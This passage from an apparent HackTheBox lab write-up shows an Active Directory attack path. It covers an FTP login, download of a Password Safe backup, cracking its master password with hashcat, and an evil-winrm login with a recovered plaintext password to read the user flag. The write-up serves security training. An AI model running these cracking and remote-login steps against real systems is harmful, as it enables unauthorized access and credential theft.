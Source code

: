 Here is the path we took in BloodHound to get from the `olivia` user to the `benjamin` user: 

![](/img/htb/administrator/bloodhound_olivia_to_benjamin.png)

Now, however, the `benjamin` user does not have the `PSRemote` privilege, but we can log into the FTP port found in the NMap scan. On it, we find an interesting `Password Safe` file that we can download. `Password Safe` is a software that lets you create and secure a username/password list with a single master password. 

```bash
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:dax): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||50411|)
150 Opening ASCII mode data connection.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||50412|)
125 Data connection already open; Transfer starting.
100% |**********************************************************************************************************************************|   952       46.36 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (45.45 KiB/s)
ftp> 
```

This file can be passed to `hashcat` to recover the password safe combination (the master password). The mode 5200 is specifically for `Password Safe v3`. 

```batch
.\hashcat.exe -m 5200 Backup.psafe3 rockyou.txt
```

The password safe can now be opened, and we see that it contains the passwords for a few users. The one we are interested in is `emily` since `BloodHound` indicates that she has not only the `PSRemote` privilege, but also the `GenericWrite` permission over `ethan`. We can log in using `evil-winrm` to get the user flag. 

```bash
# On the attacker's machine
evil-winrm -i 10.10.11.42 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

```powershell
# On the victim's machine
type ..\Desktop\user.txt
```
